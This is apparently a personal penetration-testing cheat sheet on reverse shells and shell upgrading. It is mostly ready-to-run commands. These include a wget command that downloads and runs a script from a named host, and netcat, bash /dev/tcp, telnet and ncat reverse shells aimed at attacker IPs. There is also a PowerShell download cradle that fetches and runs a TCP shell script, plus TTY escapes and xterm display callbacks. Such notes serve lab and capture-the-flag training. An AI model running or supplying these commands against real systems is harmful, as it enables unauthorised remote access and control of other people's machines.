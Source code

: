 # Reverse Shell
###### tags: `Security` `ReverseShell` 
:::info
[TOC]
:::

# Move Payload to Target
## Download from HTTPS Server
```
wget --no-check-certificate wildfoo.tw/reverse_shell -O /tmp/s
sh /tmp/s
```


# Spawn Reverse Shell
## Online Resource
[7 linux shells using built in tools](https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)
[Pentestmonkey - Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

## Cheat Sheet
### netcat (really reliable)
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
`ncat -lk -n -v 7777`
#### with ssl
```
Target:
ncat --exec cmd.exe --allow 10.0.0.4 -vnl 4444 --ssl

Attacker:
ncat -v 10.0.0.22 4444 --ssl
```

### bash
```
bash -i >& /dev/tcp/127.0.0.1/8787 0>&1
```
```
exec 5<>/dev/tcp/127.0.0.1/8787; cat <&5 | while read line; do $line 2>&5 >&5; done
```

### mknod
if `GAPING_SECURITY_HOLE = disabled`
```
mknod backpipe p && nc 10.10.14.207 7777 0<backpipe | /bin/bash 1>backpipe
```

### telnet
```
mknod backpipe p && telnet 10.10.14.207 7777 0<backpipe | /bin/bash
```

### php
`/usr/share/laudanum/php/php-reverse-shell.php`

### powershell
[nishang/Shells](https://github.com/samratashok/nishang/tree/master/Shells)
```
cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 reverse.ps1
vim reverse.ps1
: copy
: .EXAMPLE 
: PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
: to end of file and edit ip and port and delete 'PS > '

python3 -m http.server 80
```
```
powershell IEX(New-Object Net.WebClient).downloadstring("http://10.10.14.42/reverse.ps1")
```
sometimes we need use `\"` to escape

# Spwning fully interactive TTY Shell
## Online Resource
* [NETSEC - Spawning TTY Shell cheat sheet](https://netsec.ws/?p=337)

## Overview
通常拿到的 reverse shell 會有一些問題
* Some commands, like `su` and `ssh` require a proper terminal to run
* STDERR usually isn't displayed
* Can't properly use text editors like vim
* No tab-complete
* No up arrow history
* No job control

[Upgrading simple shells to fully interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

### Steps
* **use `bash`**
* `ncat -lk -n -v 7777` and get shell
* type `python -c 'import pty; pty.spawn("/bin/bash")'` in reverse shell
* `Ctrl-Z`
* type `stty raw -echo`
* `fg` `<enter>` `<enter>`
* `export TERM=xterm` allow us use `Ctrl-l` to clean the screen

![](https://i.imgur.com/mYoZfnW.png)


## Cheat Sheet
### Python
```
python -c 'import pty; pty.spawn("/bin/sh")'
```
```
echo os.system('/bin/bash')
```
```
/bin/sh -i
```
### perl
```
perl -e 'exec "/bin/sh";'
```
```
exec "/bin/sh";
```
### ruby
```
exec "/bin/sh"
```
### lua
```
os.execute('/bin/sh')
```
### From within IRB
```
exec "/bin/sh"
```
### From within vi
```
:!bash
```
```
:set shell=/bin/bash:shell
```
### From within nmap
```
!sh
```

# Other Tips 
## rlwrap
## Getting Xterm shell
Make sure your Xserver is listening to TCP:
```
$ netstat -lntup
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID    
tcp        0      0 0.0.0.0:6000            0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::6000                 :::*                    LISTEN      -                   
```

New Xserver versions have tcp listening disabled by default. Consult your distro how to enable it. You may have to change your display manager settings or the xserverrc file, e.g.:
```shell=
$ cat /etc/X11/xinit/xserverrc
#!/bin/sh
if [ -z "$XDG_VTNR" ]; then
  exec /usr/bin/X -listen tcp "$@"
else
  exec /usr/bin/X -listen tcp "$@" vt$XDG_VTNR
fi
```
Then all you have to do is to allow incoming connections from the specific IP:
```
$ xhost +10.10.10.69
```
Now let’s connect:
```
/usr/bin/xterm -display 10.10.15.203:0
```
or
```
DISPLAY=10.10.15.203:0 /usr/bin/xterm
```